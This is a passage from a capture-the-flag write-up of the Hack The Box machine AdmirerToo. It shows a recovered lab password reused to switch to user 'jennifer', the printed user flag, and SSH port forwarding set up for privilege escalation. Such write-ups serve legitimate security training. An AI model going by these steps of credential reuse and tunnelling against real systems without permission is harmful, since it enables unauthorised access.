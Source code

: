 ```php
```

<aside>
🔑 admirer     bQ3u7^AxzcB7qAsxE3

</aside>

Log in as jennifer reusing known passwords:

<aside>
🔑 jennifer     bQ3u7^AxzcB7qAsxE3

</aside>

```bash
opentsdb@admirertoo:~$ su jennifer
Password: 
jennifer@admirertoo:/usr/share/opentsdb$ id
uid=1002(jennifer) gid=100(users) groups=100(users)
jennifer@admirertoo:/usr/share/opentsdb$ cat ~/user.txt 
c171776485c8d1852be98f88edbba763
```

# Privilege Escalation

## Local Enumeration

### Port 8080 - HTTP

Forwarded port 8080:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/AdmirerToo]
└─$ ssh -L 1337:localhost:8080 jennifer@admirertoo.htb
The authenticity of host 'admirertoo.htb (10.10.11.137)' can't be established.
ED25519 key fingerprint is SHA256:6GHqCefcB0XKD8lrY40SKb5COmsxVdTiXV4NYplmxbY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'admirertoo.htb' (ED25519) to the list of known hosts.
jennifer@admirertoo.htb's password:
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Feb 22 20:58:38 2022 from 10.10.14.8
jennifer@admirertoo:~$
```
